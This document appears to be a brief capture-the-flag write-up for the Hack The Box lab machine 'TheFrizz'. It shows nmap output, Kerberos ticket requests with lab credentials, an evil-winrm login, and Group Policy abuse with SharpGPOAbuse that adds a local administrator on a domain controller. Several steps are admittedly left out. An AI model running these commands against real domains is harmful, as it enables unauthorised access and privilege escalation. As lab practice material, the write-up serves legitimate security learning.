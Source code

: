 
![TheFrizz](https://github.com/user-attachments/assets/c6fe1166-528e-409b-8838-e7e2dc1b4959)


# basic scans overview 
          
          PORT      STATE SERVICE       REASON          VERSION
          22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
          53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
          80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
          | http-methods: 
          |_  Supported Methods: GET HEAD POST OPTIONS
          |_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
          |_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
          88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-16 15:12:22Z)
          135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
          139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
          389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
          445/tcp   open  microsoft-ds? syn-ack ttl 127
          464/tcp   open  kpasswd5?     syn-ack ttl 127
          593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
          636/tcp   open  tcpwrapped    syn-ack ttl 127
          3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
          3269/tcp  open  tcpwrapped    syn-ack ttl 127
          5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
          |_http-server-header: Microsoft-HTTPAPI/2.0
          |_http-title: Not Found
          9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
          49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
          49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
          49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
          62860/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
          62869/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
          62895/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC


# Now sorry for this part , i forgot to write it , but the essential steps 
          
          impacket-getTGT frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip $victim 
          Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
          [*] Saving ticket in f.frizzle.ccache
          export KRB5CCNAME=f.frizzle.ccache
          evil-winrm -i frizzdc.frizz.htb -r FRIZZ.HTB -k f.frizzle.ccache
          
          
          
          impacket-getTGT frizz.htb/M.Schoolbus:'!suBcig@MehTed!R' -dc-ip $victim
          
          M.Schoolbus can write GPO
          New-GPO -Name pwn | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
          .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pwn
gpupdate /force 

I had to reconnect a times via evil-winrm, before I was really local admin by the GPO abuse
type C:\Users/Administrator/Desktop/root.txt
